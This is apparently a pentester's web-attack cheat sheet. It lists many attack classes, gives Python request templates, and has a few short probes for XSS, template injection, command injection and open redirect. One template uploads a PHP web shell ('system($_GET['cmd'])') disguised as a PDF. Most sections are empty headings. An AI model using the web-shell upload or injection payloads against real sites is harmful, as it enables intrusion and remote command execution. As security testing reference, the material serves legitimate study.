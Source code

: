 # Web Application Security Attacks

* Application
	* Open Redirect
	* HTTP Parameter Pollution
	* Cross Site Request Forgery
	* HTML Injection
	* CRLF Injection
	* [XS-Search](#xssearch)
	* Cross Site Sripting
	* Template Injection
	* [IDOR](#idor)
	* [Type Confusion](#type)
	* [CORS Misconfiguration](#cors)
	* [Logic Bugs](#logic)
* Server
	* [Local/Remote File Inclusion](#lfi)
	* [SQL Injection](#sqli)
	* [Server Side Request Forgery](#ssrf)
	* [XML External Entity Vulnerability](#xxe)
	* [Insecure Deserialization](#deserialization)
	* [Prototype Pollution](#proto)
	* [ESI injection](#esi)
	* [Remote Code Execution](#rce)
* Cloud/Network
	* [Sub Domain Takeover](#sub)
	* [OAuth](#oauth)
	* [SAML](#saml)
	* [Parser Exploitation](#parser)
	* [AWS buckets](#aws)
	* [AppCache](#appcache)
	* [Cache Deception](#cached)
	* [Cache Poisoning](#cachep)
	* [Proxy Attacks](#proxy)
	* [HTTP Desync](#httpd)
* Multiple/Other
	* [XSS + CSRF](#xsscsrf)
	* [XSS + TRACE](#xsstrace)
	* [SSRF + CRLF](#ssrfcrlf)
	* [Jenkins](#jenkins)
* [Firewall Bypasses](#fire)
* [Flash](#flash)
* Spreadsheets
* Wordpress
* [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

<h2>Templates</h2>

<h3>Script template</h3>

	import requests
	from colorama import Fore, Back, Style

	requests.packages.urllib3.disable_warnings(requests.packages.urllib3.exceptions.InsecureRequestWarning)

	proxies = {'http':'http://127.0.0.1:8080', 'https':'http://127.0.0.1:8080'}

	def format_text(title, item):
		cr = '\r\n'
		section_break = cr + "*" * 20 + cr
		item = str(item)
		text = Style.BRIGHT + Fore.RED + title + Fore.RESET + section_break + item + section_break
		return text

	r = requests.get('https://umich.com', verify=False, proxies=proxies)
	print format_text('r.status_code is: ', r.status_code)
	print format_text('r.headers is: ', r.headers)
	print format_text('r.cookies is: ', r.cookies)
	print format_text('r.text: ', r.text)


<h3>Post form data</h3>

	# Post form data
	proxies = {'http':'http://127.0.0.1:8080', 'https':'http://127.0.0.1:8080'}
	multipart_form_data = {
	    'file': ('aloha.php', '<?php system($_GET[\'cmd\']); ?>', 'application/pdf'),
	    'submit' : (None, 'Send')
	}
	r = requests.post('http://127.0.0.2/contact.php', verify=False, proxies=proxies, files=multipart_form_data)

<h2 id="application">Application</h2>

<h3 id="open">Open Redirect</h3>

	http://evil.url

<b>Upgrade to Response Splitting</b>

<h3 id="csrf">Cross Site Request Forgery</h3>



<b>Attacking local services</b>

<h3 id="xss">Cross Site Scripting</h3>

	<script>alert(1)</script>
	<svgonload=alert(1)>
	

<h3 id="ti">Template Injection</h3>

	input=%7B%7B7%2A7%7D%7D # {{7*7}}

<b>Sandbox Escape</b>

<h3 id="xxe">XML External Entities</h3>
	

<b>Local DTD files</b>

<h3 id="rce">Remote Code Execution</h3>

	input=%3Bdir

<b>Insecure API</b>
